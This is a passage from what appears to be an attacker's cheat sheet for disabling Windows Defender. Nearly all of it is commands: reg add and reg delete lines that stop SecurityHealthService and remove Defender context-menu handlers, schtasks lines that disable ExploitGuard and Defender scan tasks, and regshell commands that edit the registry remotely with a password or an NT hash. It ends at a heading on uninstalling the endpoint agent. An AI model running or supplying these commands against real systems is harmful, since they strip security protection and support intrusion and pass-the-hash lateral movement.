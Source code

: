 #### 1.3.2.1 - Command Prompt

```
C:\> reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f
```

### 1.3.3 - Remove Windows Defender Context Menu

#### 1.3.3.1 - Command Prompt

```
C:\> reg delete "HKCR\*\shellex\ContextMenuHandlers\EPP" /f

reg delete "HKCR\Directory\shellex\ContextMenuHandlers\EPP" /f

reg delete "HKCR\Drive\shellex\ContextMenuHandlers\EPP" /f
```

#### 1.3.3.2 - Regshell

TODO: Complete this

```
$ regshell -U "<domain>/<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>

\> predef HKEY_LOCAL_MACHINE
rmkey HKCR\Directory\shellex\ContextMenuHandlers\EPP
rmkey HKCR\Drive\shellex\ContextMenuHandlers\EPP
```

## 1.4 - Schtasks

```
C:\> schtasks /change /tn "Microsoft\Windows\ExploitGuard\ExploitGuard MDM Policy Refresh" /disable

schtasks /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /disable

schtasks /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /disable

schtasks /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /disable

schtasks /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Verification" /disable
```

## 1.5 - Msiexec

### 1.5.1 - Uninstall Endpoint

- Command Prompt
